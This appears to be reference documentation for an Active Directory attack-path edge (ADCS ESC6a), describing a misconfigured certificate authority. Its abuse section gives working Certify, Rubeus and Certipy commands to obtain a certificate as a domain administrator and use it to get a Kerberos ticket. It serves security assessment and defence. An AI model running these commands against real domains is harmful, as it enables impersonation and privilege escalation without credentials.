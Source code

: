 ---
title: ADCSESC6a
description: The principal has permission to enroll on one or more certificate templates allowing for authentication.
---

<img src="/assets/enterprise-AND-community-edition-pill-tag.svg"/> 


They also have enrollment permission for an enterprise CA with the necessary templates published. This
enterprise CA is trusted for NT authentication in the forest, and chains up to a root CA for the forest.
The enterprise CA is configured with the EDITF_ATTRIBUTESUBJECTALTNAME2 flag allowing enrollees to
specify a Subject Alternate Name (SAN) identifying another principal during certificate enrollment of
any published certificate template. This setup allow an attacker principal to obtain a malicious
certificate as any AD forest user or computer and use it for authentication and impersonation without
knowing their credentials.

## Abuse Info

### Windows

Step 1: Use Certify to request enrollment in the affected template, specifying the affected
certification authority and target principal to impersonate:

```bash
.\Certify.exe request /ca:rootdomaindc.forestroot.com\forestroot-RootDomainDC-CA /template:ESC6 /altname:ForestRootDA /url:"tag:microsoft.com,2022-09-14:sid:S-1-5-21-2697957641-2271029196-387917394-500"
```

If the enrollment fails with an error message stating that the Email or DNS name is unavailable and cannot be added to the Subject or Subject Alternate name, then it is because the enrollee principal does not have their 'mail' or 'dNSHostName' attribute set, which is required by the certificate template. The 'mail' attribute can be set on both user and computer objects but the 'dNSHostName' attribute can only be set on computer objects. Computers have validated write permission to their own 'dNSHostName' attribute by default, but neither users nor computers can write to their own 'mail' attribute by default.

Step 2: Convert the emitted certificate to PFX format:

```bash
certutil.exe -MergePFX .\cert.pem .\cert.pfx
```

Step 3: Use Rubeus to request a ticket granting ticket (TGT) from the domain, specifying the
target identity to impersonate and the PFX-formatted certificate created in Step 2:

```bash
.\Rubeus.exe asktgt /certificate:cert.pfx /user:forestrootda /domain:forestroot.com /ptt
```
Step 4: Optionally verify the TGT by listing it with the klist command:

```bash
klist
```

### Linux

Step 1: Use Certipy to request enrollment in the affected template, specifying the affected
certification authority and target principal to impersonate:

```bash
'certipy req -u john@corp.local -p Passw0rd -ca corp-DC-CA -target ca.corp.local -template ESC6 -upn administrator@corp.local
```

If the enrollment fails with an error message stating that the Email or DNS name is unavailable and cannot be added to the Subject or Subject Alternate name, then it is because the enrollee principal does not have their 'mail' or 'dNSHostName' attribute set, which is required by the certificate template. The 'mail' attribute can be set on both user and computer objects but the 'dNSHostName' attribute can only be set on computer objects. Computers have validated write permission to their own 'dNSHostName' attribute by default, but neither users nor computers can write to their own 'mail' attribute by default.

Step 2: Request a ticket granting ticket (TGT) from the domain, specifying the certificate created in Step 1 and the IP of a domain controller::

```bash
 certipy auth -pfx administrator.pfx -dc-ip 172.16.126.128
```

If the authentication fails then it may be because the DC enforces strong certificate mapping. This
requirement can be met by including a URL parameter in the SAN with the target's SID, however not
supported by Certipy. See the Windows abuse section for example.

## Opsec Considerations

When the affected certificate authority issues the certificate to the attacker, it will retain a local copy
of that certificate in its issued certificates store. Defenders may analyze those issued certificates to
identify illegitimately issued certificates and identify the principal that requested the certificate, as
well as the target identity the attacker is attempting to impersonate.

## References

This edge is related to the following MITRE ATT&CK tactic and techniques:

* [https://attack.mitre.org/techniques/T1649/](https://attack.mitre.org/techniques/T1649/)

### Abuse and Opsec references

* Certipy 4.0
* [https://specterops.io/wp-content/uploads/sites/3/2022/06/Certified_Pre-Owned.pdf](https://specterops.io/wp-content/uploads/sites/3/2022/06/Certified_Pre-Owned.pdf)
* Domain Escalation Edit Attributes
* [https://techcommunity.microsoft.com/t5/ask-the-directory-services-team/preview-of-san-uri-for-certificate-strong-mapping-for-kb5014754/ba-p/3789785](https://techcommunity.microsoft.com/t5/ask-the-directory-services-team/preview-of-san-uri-for-certificate-strong-mapping-for-kb5014754/ba-p/3789785)
